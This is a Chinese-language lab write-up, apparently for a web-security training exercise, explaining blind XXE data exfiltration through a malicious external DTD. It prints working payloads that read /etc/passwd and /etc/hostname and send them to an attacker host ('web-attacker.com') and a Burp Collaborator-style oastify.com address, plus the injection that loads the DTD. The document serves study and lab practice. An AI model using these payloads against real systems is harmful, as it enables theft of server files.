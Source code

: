 # 知识点
通过带外技术检测盲目的 XXE 漏洞非常好，但它实际上并不能说明如何利用该漏洞。攻击者真正想要实现的是泄露敏感数据。这可以通过盲目的 XXE 漏洞来实现，但它涉及攻击者在他们控制的系统上托管恶意 DTD，然后从带内 XXE 有效负载中调用外部 DTD。<br />一个恶意 DTD 泄露 /etc/passwd 文件内容的示例如下：
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
此 DTD 执行以下步骤：

- 定义一个名为 file 的 XML 参数实体，包含 /etc/passwd 文件的内容。
- 定义一个名为 eval 的 XML 参数实体，其中包含另一个名为 exfiltrate 的 XML 参数实体的动态声明。将通过向攻击者的 Web 服务器发出包含 URL 查询字符串中文件实体的值的 HTTP 请求来评估 exfiltrate 实体。
- 使用 eval 实体，这会导致执行 exfiltrate 实体的动态声明。
- 使用 exfiltrate 实体，以便通过请求指定的 URL 来评估其值。

然后，攻击者必须将恶意 DTD 托管在他们控制的系统上，通常是将其加载到他们自己的网络服务器上。例如，攻击者可能会在以下 URL 提供恶意 DTD：
```xml
http://web-attacker.com/malicious.dtd
```
最后，攻击者必须向易受攻击的应用程序提交以下 XXE 有效负载：
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
这个 XXE 有效负载声明了一个名为 xxe 的 XML 参数实体，然后使用 DTD 中的实体。这将导致 XML 解析器从攻击者的服务器获取外部 DTD 并内联解释它。然后执行恶意 DTD 中定义的步骤，并将 /etc/passwd 文件传输到攻击者的服务器。
> 注意
> 此技术可能不适用于某些文件内容，包括 /etc/passwd 文件中包含的换行符。这是因为一些 XML 解析器使用 API 来获取外部实体定义中的 URL，该 API 验证允许出现在 URL 中的字符。在这种情况下，可以使用 FTP 协议而不是 HTTP。有时，无法泄露包含换行符的数据，因此可以将 /etc/hostname 等文件作为目标。

# 思路
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://h5nlk0vuhkfc5qoev4mhvj4kpbv3js.oastify.com/?x=%file;'>">
%eval;
%exfil;
```
![image.png](./images/20231017_2355537507.png)<br />![image.png](./images/20231017_2355549378.png)
